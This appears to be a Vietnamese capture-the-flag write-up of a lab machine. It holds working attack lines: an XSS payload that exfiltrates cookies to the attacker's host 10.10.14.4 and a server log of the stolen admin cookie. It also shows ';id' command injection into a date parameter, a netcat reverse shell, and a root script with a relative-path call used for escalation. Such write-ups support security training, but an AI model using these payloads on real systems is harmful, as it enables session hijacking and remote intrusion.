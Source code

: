 IP: 10.10.11.8
- Scan nmap: nmap -sV -T4 10.10.11.8
![image 1](image/1.png)
- Có 2 cổng mở cổng 22 cho ssh và cổng 5000 cho upnp?
- ở đây ta không biết username ssh là gì nên thử truy cập vào http://10.10.11.8:5000/
![image 2](image/2.png)
- Nhấp for questions 
![image 3](image/3.png)
- Ra 1 form nhập thông tin liên hệ, nhìn đề bài cho thông tin về lỗ hổng xss.
![image 4](image/4.png)
- chèn thử 1 đoạn script và form 
 ![image 5](image/5.png)
 ![image 9](image/9.png)
 - Tự động bật ra hộp thoại 1
 ![image 10](image/10.png)
- Dùng gobuster bruteforce thử xem còn trang nào khác không: 
```gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt```
![image 6](image/6.png)
- /dashboard truy cập được 
![image 7](image/7.png)
- Không có quyền truy cập.
- Khai thác lỗ hổng xss để  lấy cookie. 
- Đầu tiên ta tạo 1 server ở phía máy tấn công. 
```
python3 -m http.server 5000
```
![image 12](image/12.png)
```
<script>var i=new Image(); i.src="http://10.10.14.4:8001/?cookie="+btoa(document.cookie);</script>
```
- Máy tấn công sẽ có cookie, btoa là mã hóa base64 trên đường truyền.
```
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.14.4 - - [21/Aug/2024 16:30:27] "GET /?cookie= HTTP/1.1" 200 -
10.10.11.8 - - [21/Aug/2024 16:30:41] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
10.10.11.8 - - [21/Aug/2024 16:30:43] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

```
decode ra 
![image 13](image/13.png)
- is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
![image 14](image/14.png)
- sửa cookie
![image 15](image/15.png)
- truy cập thành công
- Bật burp suite lên, bắt request 
![image 16](image/16.png)
- Thấy parameter là date, ta có thể phỏng đoán rằng lệnh này lấy dữ liệu từ máy chủ, chèn thử  ";id" vào
![image 17](image/17.png)
- Ta tạo 1 reverse shell bằng netcat, kết nối ngược lại với máy tấn công.
```
nc 10.10.14.4 1379 -e /bin/bash
```
- Trên máy tấn công: nc -nvlp 1379
![image 18](image/18.png)
- để tăng hiệu năng cho script nhập thêm lệnh: script /dev/null -c /bin/bash
![alt text](image.png)
![alt text](image-1.png)
```
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```
![alt text](image-2.png)
![alt text](image-3.png)